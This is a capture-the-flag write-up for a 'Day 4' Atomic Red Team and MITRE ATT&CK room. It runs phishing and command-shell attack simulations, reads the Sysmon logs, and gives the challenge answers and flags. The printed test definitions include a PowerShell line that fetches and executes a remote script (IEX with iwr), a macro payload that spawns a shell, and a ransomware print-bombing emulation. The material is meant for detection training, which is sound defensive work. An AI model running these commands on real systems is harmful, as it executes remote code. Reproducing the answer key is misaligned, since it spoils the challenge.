

# Day 4: I'm all atomic inside!

## Background story
> The below is copied from the day 4 description.

SOC-mas is approaching! And the town of Warewille started preparations for the grand event.

Glitch, a quiet, talented security SOC-mas engineer, had a hunch that these year's celebrations would be different. With looming threats, he decided to revamp the town's security defences. Glitch began to fortify the town's security defences quietly and meticulously. He started by implementing a protective firewall, patching vulnerabilities, and accessing endpoints to patch for security vulnerabilities. As he worked tirelessly, he left "breadcrumbs," small traces of his activity.

Unaware of Glitch's good intentions, the SOC team spotted anomalies: Logs showing admin access, escalation of privileges, patched systems behaving differently, and security tools triggering alerts. The SOC team misinterpreted the system modifications as a sign of an insider threat or rogue attacker and decided to launch an investigation using the Atomic Red Team framework.

## Learning objectives
- Learn how to identify malicious techniques using the MITRE ATT&CK framework.
- Learn about how to use the Atomic Red Team tests to conduct attack simulations.
- Understand how to create alerting and detection rules from the attack tests.

## Connecting to the machine
There is a machine that needs starting from the page. Once it's up and running, you can connect to it using Remote Desktop Protocol (RDP), or just use the web-based version.

## Background description
The page contains a description of various aspects of MITRE ATT&CK and Atomic Red Team. I'm not going to copy that information here. It's worth visiting the page to read the information.

## Running an Atomic
We're now going to run an Atomic test using an Administrator PowerShell session. First we get help on the command:

```powershell
> Get-Help Invoke-AtomicTest

NAME
    Invoke-AtomicTest

SYNTAX
    Invoke-AtomicTest [-AtomicTechnique] <string[]> [-ShowDetails] [-ShowDetailsBrief] [-TestNumbers <string[]>]
    [-TestNames <string[]>] [-TestGuids <string[]>] [-PathToAtomicsFolder <string>] [-CheckPrereqs]
    [-PromptForInputArgs] [-GetPrereqs] [-Cleanup] [-NoExecutionLog] [-ExecutionLogPath <string>] [-Force] [-InputArgs
    <hashtable>] [-TimeoutSeconds <int>] [-Session <PSSession[]>] [-Interactive] [-KeepStdOutStdErrFiles]
    [-LoggingModule <string>] [-WhatIf] [-Confirm]  [<CommonParameters>]


ALIASES
    None


REMARKS
    None
```

The challenge text give a description of the command and it's parameters, but I'm not going to copy that here. It's worth visiting the page to read the information.

The text mentions that the attack technique used was [T1566.001](https://attack.mitre.org/techniques/T1566/001/). We can get more information on this technique by running the following command:

```powershell
> Invoke-AtomicTest T1566.001 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating
an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" and PhishingAttachment.txt
 are downloaded to the %temp% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
$url2 = 'http://localhost/PhishingAttachment.txt'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
Invoke-WebRequest -Uri $url2 -OutFile $env:TEMP\PhishingAttachment.txt

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
Remove-Item $env:TEMP\PhishingAttachment.txt -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
[!!!!!!!!END TEST!!!!!!!]
```

A description of the test is given, along with the commands that will be run. The test will download a macro-enabled document from the Atomic Red Team GitHub repository, simulating an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" and PhishingAttachment.txt are downloaded to the %temp% directory.

The output is covered in more detail in the challenge text, but I'm not going to copy that here. It's worth visiting the page to read the information.

Now we can emulate the attack by running the following command:

```powershell 
> Invoke-AtomicTest T1566.001 -TestNumbers 2 -CheckPrereqs
> Invoke-AtomicTest T1566.001 -TestNumbers 2 -CheckPrereqs
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

CheckPrereq's for: T1566.001-2 Word spawned a command shell and used an IP address in the command line
Prerequisites not met: T1566.001-2 Word spawned a command shell and used an IP address in the command line
        [*] Microsoft Word must be installed

Try installing prereq's with the -GetPrereqs switch
```

Test 2 requires Microsoft Word to be installed, but for this test, we can run test 1. We can run the test with the following command:

```powershell 
> Invoke-AtomicTest T1566.001 -TestNumbers 1
> Invoke-AtomicTest T1566.001 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1566.001-1 Download Macro-Enabled Phishing Attachment
Done executing test: T1566.001-1 Download Macro-Enabled Phishing Attachment
```

The test has been executed successfully. Now we can look in the windows event logs to see if the test has been detected. We're going to use Windows Event Viewer to do this. We will also use Sysmon to monitor the process creation, network connections, and file creation.

First we need to clear the output from last time:
  
```powershell
> Invoke-AtomicTest T1566.001 -TestNumbers 1 -Cleanup
```

And then we can clean up the Sysmon logs by opening the Event Viewer by clicking on the icon on the taskbar. 

Once Event Viewer is open, we can navigate to the Sysmon logs by expanding the "Applications and Services Logs" section, then the "Microsoft" section, and then the "Windows" section and finally the "Sysmon" section. Then click on the "Operational" log to view the logs. Right-click on the log and select "Clear Log..." to clear the logs.

Now we can run the test again:

```powershell
> Invoke-AtomicTest T1566.001 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1566.001-1 Download Macro-Enabled Phishing Attachment
Done executing test: T1566.001-1 Download Macro-Enabled Phishing Attachment
```

Now we can look in the Event Viewer to see if the test has been detected. Right-click on the "Operational" log again and select "Refresh" to see the new logs. We can see that the test has been detected.

I sorted the logs in chronological order (oldest first) and looked for the logs mentioned in the challenge text. The first log I found was the "Process Create" event that was 3rd in the list after sorting. This included the following information:

```plaintext
  RuleName - 
  UtcTime 2024-12-11 23:26:41.410 
  ProcessGuid {c5d2b969-1fb1-675a-6a01-000000003001} 
  ProcessId 5648 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  FileVersion 10.0.17763.1 (WinBuild.160101.0800) 
  Description Windows PowerShell 
  Product Microsoft® Windows® Operating System 
  Company Microsoft Corporation 
  OriginalFileName PowerShell.EXE 
  CommandLine "powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' $url2 = 'http://localhost/PhishingAttachment.txt' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm Invoke-WebRequest -Uri $url2 -OutFile $env:TEMP\PhishingAttachment.txt} 
  CurrentDirectory C:\Users\ADMINI~1\AppData\Local\Temp\ 
  User ATOMIC\Administrator 
  LogonGuid {c5d2b969-05e7-675a-f85b-050000000000} 
  LogonId 0x55bf8 
  TerminalSessionId 2 
  IntegrityLevel High 
  Hashes MD5=7353F60B1739074EB17C5F4DDDEFE239,SHA256=DE96A6E69944335375DC1AC238336066889D9FFC7D73628EF4FE1B1B160AB32C,IMPHASH=741776AACCFC5B71FF59832DCDCACE0F 
  ParentProcessGuid {c5d2b969-1505-675a-2c01-000000003001} 
  ParentProcessId 5600 
  ParentImage C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  ParentCommandLine "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  
  ParentUser ATOMIC\Administrator 
```

The next log was 10th in the sorted list, and contained details of the`PhishingAttachment.xlsm` file being createtd. The log contained the following information:

```plaintext
  RuleName - 
  UtcTime 2024-12-11 23:26:42.415 
  ProcessGuid {c5d2b969-1fb1-675a-6a01-000000003001} 
  ProcessId 5648 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  TargetFilename C:\Users\Administrator\AppData\Local\temp\PhishingAttachment.xlsm 
  CreationUtcTime 2024-12-11 23:26:42.415 
  User ATOMIC\Administrator 
```

We can see that the file was created in the `C:\Users\Administrator\AppData\Local\temp\` directory. If we navigate to this directory, we can see the file that was created. Alongside it is a `PhishingAttachment.txt` file that contains the flag we need to answer question one later. I answered that question now, as we're going to run the cleanup command next.

```plaintext
> Invoke-AtomicTest T1566.001 -TestNumbers 1 -Cleanup
```

Next we can create some alerting rules based on the test we ran.

The challenge text gives a description on how to create a rule for the Sigma rule format. I'm not going to copy that here. It's worth visiting the page to read the information.

## Challenge
The challenge gives the following description to introduce the questions:

> As Glitch continues to prepare for SOC-mas and fortifies Wareville's security, he decides to conduct an attack simulation that would mimic a ransomware attack across the environment. He is unsure of the correct detection metrics to implement for this test and asks you for help. Your task is to identify the correct atomic test to run that will take advantage of a **command and scripting interpreter**, conduct the test, and extract valuable artefacts that would be used to craft a detection rule.


## Answes to the questions
> Note: This section contains the answers to the questions asked in the challenge. If you don't want spoilers, don't read this section.

### What was the flag found in the .txt file?
The full question is: `What was the flag found in the .txt file that is found in the same directory as the PhishingAttachment.xslm artefact?`

The flag was found in the `PhishingAttachment.txt` file. The flag is `THM{GlitchTestingForSpearphishing}`

### What ATT&CK technique ID would be our point of interest?
The full question is: `What ATT&CK technique ID would be our point of interest?`

The question referes to the challenge test above where it mentions a command and scripting interpreter. I searched in the MITRE ATT&CK website for thr term `command and scripting interpreter` and found the technique `T1059`.



So the answer to this question is `T1059`.

### What ATT&CK subtechnique ID focuses on the Windows Command Shell?
The full question is: `What ATT&CK subtechnique ID focuses on the Windows Command Shell?`

In the previous search, on the left hand side is a list of interpretors, and I clicked on the `Windows Command Shell` link. This took me to the subtechnique `T1059.003`. This is the answer to the question.

### What is the name of the Atomic Test to be simulated?
The full question is: `What is the name of the Atomic Test to be simulated?`

Here we need to look at the output of the `Invoke-AtomicTest T1059.003 -ShowDetails` command:

```plaintext
> Invoke-AtomicTest T1059.003 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Command and Scripting Interpreter: Windows Command Shell T1059.003
Atomic Test Name: Create and Execute Batch Script
Atomic Test Number: 1
Atomic Test GUID: 9e8894c0-50bd-4525-a96c-d4ac78ece388
Description: Creates and executes a simple batch script. Upon execution, CMD will briefly launch to run the batch script
 then close again.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
Start-Process #{script_path}
Command (with inputs):
Start-Process $env:TEMP\T1059.003_script.bat

Cleanup Commands:
Command:
Remove-Item #{script_path} -Force -ErrorAction Ignore
Command (with inputs):
Remove-Item $env:TEMP\T1059.003_script.bat -Force -ErrorAction Ignore

Dependencies:
Description: Batch file must exist on disk at specified location ($env:TEMP\T1059.003_script.bat)
Check Prereq Command:
if (Test-Path #{script_path}) {exit 0} else {exit 1}
Check Prereq Command (with inputs):
if (Test-Path $env:TEMP\T1059.003_script.bat) {exit 0} else {exit 1}
Get Prereq Command:
New-Item #{script_path} -Force | Out-Null
Set-Content -Path #{script_path} -Value "#{command_to_execute}"
Get Prereq Command (with inputs):
New-Item $env:TEMP\T1059.003_script.bat -Force | Out-Null
Set-Content -Path $env:TEMP\T1059.003_script.bat -Value "dir"
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Command and Scripting Interpreter: Windows Command Shell T1059.003
Atomic Test Name: Writes text to a file and displays it.
Atomic Test Number: 2
Atomic Test GUID: 127b4afe-2346-4192-815c-69042bec570e
Description: Writes text to a file and display the results. This test is intended to emulate the dropping of a malicious
 file to disk.

Attack Commands:
Executor: command_prompt
ElevationRequired: False
Command:
echo "#{message}" > "#{file_contents_path}" & type "#{file_contents_path}"
Command (with inputs):
echo "Hello from the Windows Command Prompt!" > "%TEMP%\test.bin" & type "%TEMP%\test.bin"

Cleanup Commands:
Command:
del "#{file_contents_path}" >nul 2>&1
Command (with inputs):
del "%TEMP%\test.bin" >nul 2>&1
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Command and Scripting Interpreter: Windows Command Shell T1059.003
Atomic Test Name: Suspicious Execution via Windows Command Shell
Atomic Test Number: 3
Atomic Test GUID: d0eb3597-a1b3-4d65-b33b-2cda8d397f20
Description: Command line executed via suspicious invocation. Example is from the 2021 Threat Detection Report by Red Ca
nary.

Attack Commands:
Executor: command_prompt
ElevationRequired: False
Command:
%LOCALAPPDATA:~-3,1%md /c echo #{input_message} > #{output_file} & type #{output_file}
Command (with inputs):
%LOCALAPPDATA:~-3,1%md /c echo Hello, from CMD! > hello.txt & type hello.txt
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Command and Scripting Interpreter: Windows Command Shell T1059.003
Atomic Test Name: Simulate BlackByte Ransomware Print Bombing
Atomic Test Number: 4
Atomic Test GUID: 6b2903ac-8f36-450d-9ad5-b220e8a2dcb9
Description: This test attempts to open a file a specified number of times in Wordpad, then prints the contents.  It is
designed to mimic BlackByte ransomware's print bombing technique, where tree.dll, which contains the ransom note, is ope
ned in Wordpad 75 times and then printed.  See https://redcanary.com/blog/blackbyte-ransomware/.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
cmd /c "for /l %x in (1,1,#{max_to_print}) do start wordpad.exe /p #{file_to_print}" | Out-null
Command (with inputs):
cmd /c "for /l %x in (1,1,1) do start wordpad.exe /p C:\Tools\AtomicRedTeam\atomics\T1059.003\src\Wareville_Ransomware.t
xt" | Out-null

Cleanup Commands:
Command:
stop-process -name wordpad -force -erroraction silentlycontinue

Dependencies:
Description: File to print must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1059.003\src\Warevi
lle_Ransomware.txt)
Check Prereq Command:
if (test-path "#{file_to_print}"){exit 0} else {exit 1}
Check Prereq Command (with inputs):
if (test-path "C:\Tools\AtomicRedTeam\atomics\T1059.003\src\Wareville_Ransomware.txt"){exit 0} else {exit 1}
Get Prereq Command:
new-item #{file_to_print} -value "This file has been created by T1059.003 Test 4" -Force | Out-Null
Get Prereq Command (with inputs):
new-item C:\Tools\AtomicRedTeam\atomics\T1059.003\src\Wareville_Ransomware.txt -value "This file has been created by T1059.003 Test 4" -Force | Out-Null
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Command and Scripting Interpreter: Windows Command Shell T1059.003
Atomic Test Name: Command Prompt read contents from CMD file and execute
Atomic Test Number: 5
Atomic Test GUID: df81db1b-066c-4802-9bc8-b6d030c3ba8e
Description: Simulate Raspberry Robin using the "standard-in" command prompt feature cmd `/R <` to read and execute a file via cmd.exe See https://redcanary.com/blog/raspberry-robin/.

Attack Commands:
Executor: command_prompt
ElevationRequired: False
Command:
cmd /r cmd<#{input_file}
Command (with inputs):
cmd /r cmd<C:\Tools\AtomicRedTeam\atomics\T1059.003\src\t1059.003_cmd.cmd

Dependencies:
Description: CMD file must exist on disk at specified location (C:\Tools\AtomicRedTeam\atomics\T1059.003\src\t1059.003_cmd.cmd)
Check Prereq Command:
if (Test-Path #{input_file}) {exit 0} else {exit 1}
Check Prereq Command (with inputs):
if (Test-Path C:\Tools\AtomicRedTeam\atomics\T1059.003\src\t1059.003_cmd.cmd) {exit 0} else {exit 1}
Get Prereq Command:
New-Item -Type Directory (split-path #{input_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1059.003/src/t1059.003_cmd.cmd" -OutFile "#{input_file}"
Get Prereq Command (with inputs):
New-Item -Type Directory (split-path C:\Tools\AtomicRedTeam\atomics\T1059.003\src\t1059.003_cmd.cmd) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1059.003/src/t1059.003_cmd.cmd" -OutFile "C:\Tools\AtomicRedTeam\atomics\T1059.003\src\t1059.003_cmd.cmd"
[!!!!!!!!END TEST!!!!!!!]
```

Looking through this output, we can see that the only test that mentions a ransomware attack is the `Simulate BlackByte Ransomware Print Bombing` test. This is the answer to the question.

### What is the name of the file used in the test?
The full question is: `What is the name of the file used in the test?`

Looking in the output from the previous question, in the description of the test, we can see that the file used in the test is `Wareville_Ransomware.txt`.

### What is the flag found from this Atomic Test?
The full question is: `What is the flag found from this Atomic Test?`

To find the flag, we need to run the test. First we clear out the Sysmon logs in the Event Viewer as before, then we run the command:

```plaintext
> Invoke-AtomicTest T1059.003 -TestNumbers 4
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

Executing test: T1059.003-4 Simulate BlackByte Ransomware Print Bombing
Done executing test: T1059.003-4 Simulate BlackByte Ransomware Print Bombing
```

The test actually prints the output to a PDF, so I saved that on the desktop and opened it. It contained the line `flag=THM{R2xpdGNoIGlzIG5vdCB0aGUgZW5lbXk=}`. This is the flag we need to answer the question.

### Remaining questions
The remaining questions only require you to click `Complete` and have no specific answers to find.